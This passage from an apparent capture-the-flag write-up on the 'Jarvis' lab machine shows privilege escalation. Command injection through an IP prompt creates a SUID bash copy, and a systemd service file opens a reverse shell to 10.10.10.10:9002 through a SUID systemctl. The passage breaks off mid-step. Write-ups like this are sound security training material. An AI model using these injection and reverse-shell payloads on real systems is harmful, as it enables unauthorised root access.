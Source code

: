 ```bash

Enter an IP: $(cp /bin/bash /home/pepper/bash)
```

This copied `bash` to `pepper`'s home directory, now let's give it suid permission.

```bash
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p            
***********************************************                                                                                                               
     _                 _                                                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _                                                                                                                
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                 
***********************************************

Enter an IP: $(chmod +s /home/pepper/bash)
```

Nice, now we run `/home/pepper/bash -p` to get a shell as `pepper`.

```shell
www-data@jarvis:/var/www/Admin-Utilities$ /home/pepper/bash -p                 
bash-4.4$ whoami                                                                                                                                              
pepper        
```

### pepper --> root

We saw earlier that `systemctl` has suid permissions, let's create a service that would send us a shell when it starts.

First we create a service file with the name `root.service` with the following content:

```shell
[Unit]
Description=hack

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/9002 0>&1'

[Install]
WantedBy=multi-user.target
```

Now we enable the service using the following command:

